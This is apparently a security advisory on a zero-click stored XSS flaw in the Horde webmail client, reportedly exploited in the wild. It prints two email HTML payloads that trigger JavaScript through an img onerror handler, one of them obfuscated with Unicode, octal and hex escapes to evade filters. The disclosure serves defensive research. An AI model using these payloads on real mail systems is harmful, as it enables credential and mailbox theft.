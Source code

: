 The vulnerability was tested on latest version as stated here https://www.horde.org/download/imp, but with applied patches: </br>
Horde 5.2.23 </br>
IMP 6.2.27

A vulnerability within Horde Web Client was discovered during the investigation. Exploiting this vulnerability has already been seen in the wild.

If an attacker crafts a specially prepared email, he/she can abuse this vulnerability to retrieve username, password and complete email database of a user mailbox.


*Details*

The content inside email header base64 encoded text/html boundary contains a specially crafted HTML.

Injecting a XSS payload inside an HTML attribute, namely the “onerror” event handler, the server-side checks does not sanitize the payload and does not detect HTML encoded characters. When the browser renders the page, it will decode and execute the injected payload.

The payload is injected at the end of the legit HTML content.

Example:
```
<html>
<body>
<p>Hi...</p>
Regards<br>
<math><style>*
<img style=display:none src=nonexsisting.png onerror="window.parent.eval(window.parent.atob('base64 encoded JavaScript'));">
</style></math>
</body></html>
```

To evade detection Unicode characters can be used:
For eval:
- \u{065} represents the Unicode character for the letter "e."
- \u{076} represents the Unicode character for the letter "v."
- \141 (octal) or \x6C (hexadecimal) represents the letter "a."
- \x6C represents the hexadecimal for the letter "l."

For atob:
- \u{61} represents the Unicode character for the letter "a."
- \u{74} represents the Unicode character for the letter "t."
- o is a regular character.
- \142 (octal) represents the letter "b."

Example:
```
<html>
<body>
<p>Hi...</p>
Regards<br>
<math><style><img style=display:none src=nonexsisting.png onerror="window.parent['\u{065}\u{076}\141\x6C'](window.parent['\u{61}\u{74}o\142']('base64 encoded JavaScript'))"></style></math>
</body></html>
```

The “nonexsisting.png” image is searched inside /imp, since it does not exist the “onerror” content is executed.

A specially crafted JavaScript code inside the *'base64 encoded JavaScript'* is executed.

This kind of crafted email is a zero-click attack, where no click is needed from a user side other then looking this email in the Horde web client.
